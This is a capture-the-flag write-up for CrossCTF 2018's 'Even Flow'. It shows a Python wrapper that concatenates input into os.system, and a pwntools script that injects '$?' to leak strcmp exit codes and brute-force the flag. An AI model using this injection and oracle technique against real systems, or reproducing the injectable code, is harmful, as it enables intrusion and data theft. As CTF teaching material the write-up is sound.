 # Even Flow - CrossCTF Quals 2018 (crypto)

> Do you like shell command injection?
>
> nc ctf.pwn.sg 1601
>
> Creator - amon (@nn_amon)

## Challenge
We are given a python script that is ran upon connection to the challenge server. Mainly, it reads in 2 strings.

First, a string that is called "flag", and then another string consisting of only 2 bytes called "shell".
```
sys.stdout.write("Flag: ")
sys.stdout.flush()
flag = sys.stdin.readline().strip()

sys.stdout.write("Shell: ")
sys.stdout.flush()
shell = sys.stdin.read(2)
```

The "flag" would be passed as an argument into the `evenflow` binary, while the "shell" is just being passed to `echo`.
```
os.system("./evenflow " + flag + "; echo \"" + shell + "\"");
```

We were also given the source of `evenflow`, which just reads the flag from a file, and performs `strcmp` on the "flag" that we passed in and the actual flag.
```
size_t get_file_size(char * filename) {
    struct stat st;
    stat(filename, &st);
    return st.st_size;
}

int main(int argc, char ** argv) {
    FILE * fd = fopen("flag", "r");
    size_t file_size = get_file_size("flag");
    char * buffer = malloc(file_size);
    fread(buffer, 1, file_size, fd);
    return strcmp(buffer, argv[1]);
}
```

The interesting part of this code is the last line,
```
return strcmp(buffer, argv[1]);
```

According to documentation, `strcmp` will return a number that says how far the first differing character is away from each other.

## Exploit
### $?
In a shell, `$?` contains the return value of the previous command. Since we are allowed to pass a string of 2 bytes to `echo`, we can just send in `$?` for "shell".

So, we can call `echo $?` which will give us the return value of `./evenflow flag`, which will let us know how far away is the first differing character from the actual flag. 

With this information, we can keep "correcting" our flag until we get the actual flag.

### Script
We can write a script to automate this process.
```
from pwn import *

def tryf(flag):
    p = remote('ctf.pwn.sg', 1601)

    p.sendlineafter('Flag: ', flag)
    p.sendlineafter('Shell: ', '$?')

    # returns the return value of evenflow
    return int(p.recvline())

# The Idea:
# Basically, we compare the actual flag to "0",
# Then adjust it based on the output of strcmp (the exit code)
# e.g. to "C", then add a "0" => "C0"
# and repeat till we get "}", the end of the flag

s = "0"
while True:
    i = tryf(s)

    # adjust!
    c = chr(ord('0')+i)
    s = s[:-1] + c

    if s[-1] == '}':
        print(s)
        break

    s+='0'
```